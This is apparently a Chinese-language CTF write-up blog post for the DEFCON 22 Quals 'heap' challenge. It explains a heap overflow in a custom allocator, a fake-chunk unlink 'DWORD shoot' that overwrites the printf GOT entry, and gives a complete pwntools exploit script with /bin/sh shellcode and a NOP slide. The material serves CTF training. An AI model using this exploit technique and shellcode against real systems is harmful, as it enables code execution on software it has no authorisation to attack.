 ```yaml
---
layout: post
title:  "2019.04.06 DEFCON22-CTF-Quals-HEAP"
tags: [writeup, pwn, heap, defcon]
date: 2019-04-06
comments: false
---
```


# DEFCON22-CTF-Quals-HEAP writeup



上个学期某线下赛里看到的这个题，当时没做直接拿队友的exp打了，现在看看。



checksec:



![5ca8636caa3c1](https://i.loli.net/2019/04/06/5ca8636caa3c1.png)



![5ca8637e8923d](https://i.loli.net/2019/04/06/5ca8637e8923d.png)



![5ca863e40e2eb](https://i.loli.net/2019/04/06/5ca863e40e2eb.png)



用了伪随机数，malloc了20个chunk，每次的size都固定。

打印出来了每个chunk的地址。

往第11个chunk里写数据，最多能写0x1000bytes，堆溢出。

之后是所有堆块的释放。








malloc和free函数好像都没用glibc中的，而是自己写了函数。

分析一下free函数发现两处类似unlink的地方。

![5ca865b884699](https://i.loli.net/2019/04/06/5ca865b884699.png)

第一处检查当前要释放的chunk的inuse是否为0，若为0，则将前一块chunk进行unlink操作，然后与当前chunk合并。

第二处检查当前要释放的chunk的下一个chunk是否在使用(通过下下chunk的inuse判断)，若没在使用，则对下一个chunk进行unlink操作，然后合并。

检查非常松.






假设有A B C三个堆块。

B为可以输入内容的堆块。

在B中伪造FD BK，同时溢出C堆块的size位为一个偶数。

这样在free(A)的时候就能达到DWORD SHOOT的效果。


可以在B堆块中填上shellcode，改写printf_got为B堆块位置。

拿到shell。



exp:

```python
#!/usr/bin/env python
# -*- coding=utf8 -*-
"""
# Author: le3d1ng
# Created Time : 2019年04月06日 星期六 13时16分57秒
# File Name: exp.py
# Description:
"""
from pwn import *

io = process('./defcon22heap')
context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']
context.arch = 'i386'


printfgot = 0x0804C004
putsgot = 0x0804C018
exitgot = 0x0804C020
exitaddr = 0x804c8ac

'''
[[next+4] + 8] = next+8 DWORD SHOOT
[[next+8] + 4] = next+4

'''
#io.recv()
info = io.recv()
scaddr =  int(info.split("[ALLOC]")[11][5:12],16)

print hex(scaddr)

shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42"

#shellcode = asm(shellcraft.i386.linux.sh())
#shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"

payload = p32(printfgot-8)
payload += p32(scaddr + 8)
payload += '\x90'*(260-8-len(shellcode)) #nopslide

payload += shellcode

payload += p32(0x100) #next next size

payload += "le3d1ng"


io.sendline(payload)
io.recv()
io.interactive()
```


